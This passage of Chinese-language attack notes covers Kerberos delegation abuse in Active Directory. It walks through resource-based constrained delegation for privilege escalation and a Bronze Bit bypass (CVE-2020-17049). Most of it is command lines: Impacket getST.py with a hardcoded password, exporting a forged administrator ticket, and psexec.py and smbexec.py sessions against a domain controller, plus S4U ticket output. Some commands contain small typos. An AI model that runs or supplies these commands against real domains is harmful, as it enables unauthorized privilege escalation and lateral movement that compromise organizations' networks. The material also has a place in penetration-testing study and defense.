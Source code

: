 ```
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in administrator.ccache
```
+ 导入票据并远程连接
```
export KRB5CCNAME=administrator.ccache
psexec.py -k -no-pass -dc-ip 192.168.43.250 -target-ip 192.168.43.163 fuck.shigophilo.com
```
### 提权
+ 域用户自己将自己的机器加入域
![图片](imgs/实战-基于资源的约束委派攻击/640.jpeg)
+ 提权原理
如果域用户再本机上登录中,就不需要域用户的凭证了,直接在机器上可以创建一个机器账号
1.利用自身认证凭据,创建机器账号
2.配置机器账号到域用户所在机的委派
3.使用创建的机器账号请求到域用户所在机的ST
4.psexec
## 敏感用户不能委派和仅使用kerberos的绕过
> hack 用户设置为约束委派的仅使用kerberos
> administrator用户设置为敏感账户不能委派

+ Kerberos Bronze Bit攻击(CVE-2020-17049)
**-force-forwardable**

```
//-force-forwardable 请求ST
getST.py -dc-ip ADOl.xie.com xie.com/hack:P@ss1234 -spn cifs/ad01.xie.com -impersonate administrator -force-forwardable

//导入该票据
export KRB5CCNAME-administrator.ccache
//访问域控
python3 smbexec.py -no-pass -k ad01.xie.com
```